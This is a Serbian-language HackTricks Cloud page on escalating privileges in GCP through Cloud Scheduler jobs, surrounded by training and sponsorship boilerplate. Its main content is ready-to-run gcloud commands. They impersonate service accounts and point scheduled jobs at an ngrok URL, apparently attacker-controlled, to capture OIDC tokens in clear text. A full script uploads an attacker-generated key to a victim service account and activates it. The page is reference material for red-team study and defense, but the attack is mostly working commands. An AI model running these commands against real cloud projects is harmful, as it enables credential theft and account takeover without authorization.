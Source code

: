 # GCP - Cloud Scheduler Privesc

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## Cloud Scheduler

Više informacija u:

{% content-ref url="../gcp-services/gcp-cloud-scheduler-enum.md" %}
[gcp-cloud-scheduler-enum.md](../gcp-services/gcp-cloud-scheduler-enum.md)
{% endcontent-ref %}

### `cloudscheduler.jobs.create` , `iam.serviceAccounts.actAs`, (`cloudscheduler.locations.list`)

Napadač sa ovim dozvolama mogao bi da iskoristi **Cloud Scheduler** da **autentifikuje cron poslove kao određeni Service Account**. Kreiranjem HTTP POST zahteva, napadač zakazuje akcije, poput kreiranja Storage bucket-a, da se izvrše pod identitetom Service Account-a. Ova metoda koristi **Scheduler-ovu sposobnost da cilja `*.googleapis.com` krajnje tačke i autentifikuje zahteve**, omogućavajući napadaču da direktno manipuliše Google API krajnjim tačkama koristeći jednostavnu `gcloud` komandu.

* **Kontaktirajte bilo koji google API putem `googleapis.com` sa OAuth token header-om**

Kreirajte novi Storage bucket:

{% code overflow="wrap" %}
```bash
gcloud scheduler jobs create http test --schedule='* * * * *' --uri='https://storage.googleapis.com/storage/v1/b?project=<PROJECT-ID>' --message-body "{'name':'new-bucket-name'}" --oauth-service-account-email 111111111111-compute@developer.gserviceaccount.com --headers "Content-Type=application/json" --location us-central1
```
{% endcode %}

Da bi eskalirao privilegije, **napadač jednostavno kreira HTTP zahtev koji cilja željeni API, imitujući određeni servisni nalog**

* **Ekstraktuj OIDC token servisnog naloga**

{% code overflow="wrap" %}
```bash
gcloud scheduler jobs create http test --schedule='* * * * *' --uri='https://87fd-2a02-9130-8532-2765-ec9f-cba-959e-d08a.ngrok-free.app' --oidc-service-account-email 111111111111-compute@developer.gserviceaccount.com [--oidc-token-audience '...']

# Listen in the ngrok address to get the OIDC token in clear text.
```
{% endcode %}

Ako treba da proverite HTTP odgovor, možete jednostavno **pogledati logove izvršenja**.

### `cloudscheduler.jobs.update`, `iam.serviceAccounts.actAs`, (`cloudscheduler.locations.list`)

Kao u prethodnom scenariju, moguće je **ažurirati već kreirani scheduler** da biste ukrali token ili izvršili akcije. Na primer:

{% code overflow="wrap" %}
```bash
gcloud scheduler jobs update http test --schedule='* * * * *' --uri='https://87fd-2a02-9130-8532-2765-ec9f-cba-959e-d08a.ngrok-free.app' --oidc-service-account-email 111111111111-compute@developer.gserviceaccount.com [--oidc-token-audience '...']

# Listen in the ngrok address to get the OIDC token in clear text.
```
{% endcode %}

Još jedan primer za otpremanje privatnog ključa na SA i njegovu imitaciju:

{% code overflow="wrap" %}
```bash
# Generate local private key
openssl req -x509 -nodes -newkey rsa:2048 -days 365 \
-keyout /tmp/private_key.pem \
-out /tmp/public_key.pem \
-subj "/CN=unused"

# Remove last new line character of the public key
file_size=$(wc -c < /tmp/public_key.pem)
new_size=$((file_size - 1))
truncate -s $new_size /tmp/public_key.pem

# Update scheduler to upload the key to a SA
## For macOS: REMOVE THE `-w 0` FROM THE BASE64 COMMAND
gcloud scheduler jobs update http scheduler_lab_1 \
--schedule='* * * * *' \
--uri="https://iam.googleapis.com/v1/projects/$PROJECT_ID/serviceAccounts/victim@$PROJECT_ID.iam.gserviceaccount.com/keys:upload?alt=json" \
--message-body="{\"publicKeyData\": \"$(cat /tmp/public_key.pem | base64 -w 0)\"}" \
--update-headers "Content-Type=application/json" \
--location us-central1 \
--oauth-service-account-email privileged@$PROJECT_ID.iam.gserviceaccount.com

# Wait 1 min
sleep 60

# Check the logs to check it worked
gcloud logging read 'resource.type="cloud_scheduler_job" AND resource.labels.job_id="scheduler_lab_1" AND resource.labels.location="us-central1"
jsonPayload.@type="type.googleapis.com/google.cloud.scheduler.logging.AttemptFinished"' --limit 10 --project <project-id> --format=json

## If any  '"status": 200'  it means it worked!
## Note that this scheduler will be executed every minute and after a key has been created, all the other attempts to submit the same key will throw a: "status": 400

# Build the json to contact the SA
## Get privatekey in json format
file_content=$(<"/tmp/private_key.pem")
private_key_json=$(jq -Rn --arg str "$file_content" '$str')

## Get ID of the generated key
gcloud iam service-accounts keys list --iam-account=victim@$PROJECT_ID.iam.gserviceaccount.com

# Create the json in a file
## NOTE that you need to export your project-id in the env var PROJECT_ID
## and that this script is expecting the key ID to be the first one (check the `head`)
export PROJECT_ID=...
cat > /tmp/lab.json <<EOF
{
"type": "service_account",
"project_id": "$PROJECT_ID",
"private_key_id": "$(gcloud iam service-accounts keys list --iam-account=scheduler-lab-1-target@$PROJECT_ID.iam.gserviceaccount.com | cut -d " " -f 1 | grep -v KEY_ID | head -n 1)",
"private_key": $private_key_json,
"client_email": "scheduler-lab-1-target@$PROJECT_ID.iam.gserviceaccount.com",
"client_id": "$(gcloud iam service-accounts describe scheduler-lab-1-target@$PROJECT_ID.iam.gserviceaccount.com | grep oauth2ClientId | cut -d "'" -f 2)",
"auth_uri": "https://accounts.google.com/o/oauth2/auth",
"token_uri": "https://oauth2.googleapis.com/token",
"auth_provider_x509_cert_url": "https://www.googleapis.com/oauth2/v1/certs",
"client_x509_cert_url": "https://www.googleapis.com/robot/v1/metadata/x509/scheduler-lab-1-target%40$PROJECT_ID.iam.gserviceaccount.com",
"universe_domain": "googleapis.com"
}
EOF

# Activate the generated key
gcloud auth activate-service-account --key-file=/tmp/lab.json
```
{% endcode %}

## References

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
